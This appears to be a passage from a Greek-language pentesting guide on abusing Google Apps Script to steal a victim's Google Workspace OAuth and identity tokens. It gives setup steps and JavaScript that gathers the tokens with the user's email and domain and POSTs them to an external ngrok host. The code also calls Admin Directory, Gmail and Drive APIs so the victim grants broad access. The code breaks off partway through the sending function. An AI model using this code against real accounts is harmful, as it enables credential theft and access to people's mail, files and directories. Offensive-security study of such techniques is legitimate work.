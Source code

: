 Ξεκινήστε δημιουργώντας ένα App Script, η σύστασή μου για αυτό το σενάριο είναι να δημιουργήσετε ένα Google Sheet και να μεταβείτε στο **`Extensions > App Scripts`**, αυτό θα ανοίξει ένα **νέο App Script για εσάς συνδεδεμένο με το φύλλο**.

### Διαρροή token

Για να δώσετε πρόσβαση στο OAuth token πρέπει να κάνετε κλικ στο **`Services +` και να προσθέσετε scopes όπως**:

* **AdminDirectory**: Πρόσβαση σε χρήστες και ομάδες του καταλόγου (αν ο χρήστης έχει αρκετά δικαιώματα)
* **Gmail**: Για πρόσβαση σε δεδομένα gmail
* **Drive**: Για πρόσβαση σε δεδομένα drive
* **Google Sheets API**: Έτσι ώστε να λειτουργεί με το trigger

Για να αλλάξετε μόνοι σας τα **απαραίτητα scopes** μπορείτε να μεταβείτε στις ρυθμίσεις του έργου και να ενεργοποιήσετε: **`Show "appsscript.json" manifest file in editor`.**

{% code overflow="wrap" %}
```javascript
function getToken() {
var userEmail = Session.getActiveUser().getEmail();
var domain = userEmail.substring(userEmail.lastIndexOf("@") + 1);
var oauthToken = ScriptApp.getOAuthToken();
var identityToken = ScriptApp.getIdentityToken();

// Data json
data = {
"oauthToken": oauthToken,
"identityToken": identityToken,
"email": userEmail,
"domain": domain
}

// Send data
makePostRequest(data);

// Use the APIs, if you don't even if the have configured them in appscript.json the App script won't ask for permissions

// To ask for AdminDirectory permissions
var pageToken = "";
page = AdminDirectory.Users.list({
domain: domain,  // Use the extracted domain
orderBy: 'givenName',
maxResults: 100,
pageToken: pageToken
});

// To ask for gmail permissions
var threads = GmailApp.getInboxThreads(0, 10);

// To ask for drive permissions
var files = DriveApp.getFiles();
}


function makePostRequest(data) {
var url = 'http://5.tcp.eu.ngrok.io:12027';

var options = {
'method' : 'post',
'contentType': 'application/json',
'payload' : JSON.stringify(data)
};
```